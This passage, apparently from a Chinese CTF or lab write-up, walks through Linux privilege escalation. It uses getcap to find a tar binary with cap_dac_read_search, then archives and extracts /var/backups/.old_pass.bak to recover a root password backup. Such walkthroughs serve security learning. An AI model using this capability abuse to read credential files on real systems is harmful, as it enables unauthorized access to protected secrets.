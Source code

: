 >  
 通过ls -l查看文件权限，发现tar具有执行权限，猜想他是一个可执行文件 


```
ls -l

```

<img src="https://img-blog.csdnimg.cn/4951828db8fe42e784afc848748bbe4d.png" alt="在这里插入图片描述">

>  
 通过getcap命令查看文件拥有的权限是什么 


```
getcap tar

```

>  
 发现cap_dac_read _search=ep，说明他是可以读取任意文件的 


<img src="https://img-blog.csdnimg.cn/2cc0cab939574b17ba18c5180f20e660.png" alt="在这里插入图片描述">

#### 3.linux setcap命令的信息

```
https://blog.csdn.net/megan_free/article/details/100357702\

```

#### 4.发现备份文件.old_pass.bak

>  
 既然给了我们一个可进行任意读取的可执行文件，那就肯定是要我们找一个文件来读取，获得root的密码。 经过一段时间的寻找之后，发现/var/backups下有个备份文件.old_pass.bak 


<img src="https://img-blog.csdnimg.cn/8707bb1a1bc04213b432b16824f6a115.png" alt="在这里插入图片描述">

#### 5.利用tar读取密码备份文件

>  
 我们用tar把它打包之后再解压出来，就没有权限问题了 


```
./tar -cvf pass.tar /var/backups/.old_pass.bak
tar -xvf pass.tar

```

>  
 这里打包的时候一定要使用./tar，不然会提示没权限，没有加./代表的是你用的系统安装的tar不是这个目录下的tar，就不一定会有读取任意文件的权限 


<img src="https://img-blog.csdnimg.cn/20202df8fca84eeb8ea7b3c1d7f587f4.png" alt="在这里插入图片描述">
